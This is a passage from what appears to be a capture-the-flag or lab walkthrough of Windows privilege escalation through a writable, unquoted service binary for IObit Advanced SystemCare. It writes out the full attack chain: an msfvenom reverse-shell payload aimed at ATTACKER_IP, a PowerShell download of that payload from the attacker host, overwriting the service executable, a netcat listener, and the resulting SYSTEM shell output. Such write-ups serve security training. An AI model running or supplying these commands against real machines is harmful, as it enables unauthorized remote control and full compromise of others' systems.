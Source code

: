 Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths.

AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)\[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected

File Permissions: bill \[WriteData/CreateFiles]

Possible DLL Hijacking in binary folder: C:\Program Files (x86)\IObit\Advanced SystemCare (bill \[WriteData/CreateFiles])

* Manually list service names.

powershell -c "Get-Service"

**9. Generate payload using msfvenom.**

msfvenom -p windows/shell\_reverse\_tcp LHOST=ATTACKER\_IP LPORT=4443 -e x86/shikata\_ga\_nai -f exe-service -o Advanced.exe

**10. Pull payload to target using PowerShell.**

powershell -c "Invoke-WebRequest -Uri 'http://ATTACKER\_IP:8000/Advanced.exe' -OutFile 'C:\Program Files (x86)\IObit\Advanced SystemCare\Advanced.exe'"

cd "c:\program files (x86)\iobit\advanced systemcare"

copy ASCService.exe ASCService.exe.bkp

**11. Stop service on target.**

sc stop advancedsystemcareservice9

**12. Overwrite service executable with reverse shell on target.**

copy advanced.exe ascservice.exe

**13. Create listener on attacking machine.**

nc -lvnp 4443

**14. Restart service.**

sc start advancedsystemcareservice9

**15. Gain shell as administrator on listener.**

Connection from TARGET\_IP 49409 received!

Microsoft Windows \[Version 6.3.9600]

(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami

nt authority\system
